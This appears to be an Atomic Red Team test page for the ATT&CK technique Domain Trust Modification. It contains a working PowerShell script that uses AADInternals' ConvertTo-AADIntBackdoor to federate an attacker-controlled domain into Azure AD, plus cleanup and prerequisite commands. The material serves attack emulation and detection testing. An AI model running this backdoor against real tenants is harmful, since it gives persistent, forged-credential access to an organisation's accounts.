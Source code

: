 # T1484.002 - Domain Trust Modification
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1484/002)
<blockquote>Adversaries may add new domain trusts or modify the properties of existing domain trusts to evade defenses and/or elevate privileges. Domain trust details, such as whether or not a domain is federated, allow authentication and authorization properties to apply between domains for the purpose of accessing shared resources.(Citation: Microsoft - Azure AD Federation) These trust objects may include accounts, credentials, and other authentication material applied to servers, tokens, and domains.

Manipulating the domain trusts may allow an adversary to escalate privileges and/or evade defenses by modifying settings to add objects which they control. For example, this may be used to forge [SAML Tokens](https://attack.mitre.org/techniques/T1606/002), without the need to compromise the signing certificate to forge new credentials. Instead, an adversary can manipulate domain trusts to add their own signing certificate.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Add Federation to Azure AD](#atomic-test-1---add-federation-to-azure-ad)


<br/>

## Atomic Test #1 - Add Federation to Azure AD
Add a new federated domain to Azure AD using PowerShell.
The malicious domain to be federated must be configured beforehand (outside of the scope of this test):
    1. Open Azure Portal
    2. Add a new "custom domain name"
    3. Verify the domain by following instructions (i.e. create the requested DNS record)

**Supported Platforms:** Azure-ad


**auto_generated_guid:** 8906c5d0-3ee5-4f63-897a-f6cafd3fdbb7





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| azure_username | Username of a privileged Azure AD account such as External Identity Provider Administrator or Global Administrator roles | String | bruce.wayne@contosocloud.com|
| azure_password | Password of azure_username | String | iamthebatman|
| domain_name | Malicious federated domain name | String | contoso.com|


#### Attack Commands: Run with `powershell`! 


```powershell
Import-Module AzureAD
Import-Module AADInternals

$PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
$Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword

try {
  Connect-AzureAD -Credential $Credential -ErrorAction Stop > $null
}
catch {
  Write-Host "Error: AzureAD could not connect"
  exit 1
}

try {
  $domain = Get-AzureADDomain -Name "#{domain_name}"
}
catch {
  Write-Host "Error: domain ""#{domain_name}"" not found"
  exit 1
}
if (-Not $domain.IsVerified) {
  Write-Host "Error: domain ""#{domain_name}"" not verified"
  exit 1
}

if ($domain.AuthenticationType -eq "Federated") {
  Write-Host "Error: domain ""#{domain_name}"" already federated. Try with a different domain or re-create it before."
  exit 1
}

$at = Get-AADIntAccessTokenForAADGraph -Credentials $Credential
if (-Not $at) {
  Write-Host "Error: AADInternals could not connect"
  exit 1
}

$new = ConvertTo-AADIntBackdoor -AccessToken $at -DomainName "#{domain_name}"
if ($new) {
  Write-Host "Federation successfully added to Azure AD"
  Write-Host $new
}
else {
  Write-Host "The federation setup failed"
}

Write-Host "End of federation configuration."
```

#### Cleanup Commands:
```powershell
try {
  Import-Module AzureAD -ErrorAction Ignore

  $PWord = ConvertTo-SecureString -String "#{azure_password}" -AsPlainText -Force
  $Credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList "#{azure_username}", $Pword
  Connect-AzureAD -Credential $Credential -ErrorAction Ignore > $null

  Remove-AzureADDomain -Name "#{domain_name}" -ErrorAction Ignore
} catch {}
```



#### Dependencies:  Run with `powershell`!
##### Description: AzureAD and AADInternals Powershell modules must be installed.
##### Check Prereq Commands:
```powershell
if ((Get-Module -ListAvailable -Name AzureAD) -And (Get-Module -ListAvailable -Name AADInternals)) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name AzureAD -Force
Install-Module -Name AADInternals -Force
```




<br/>
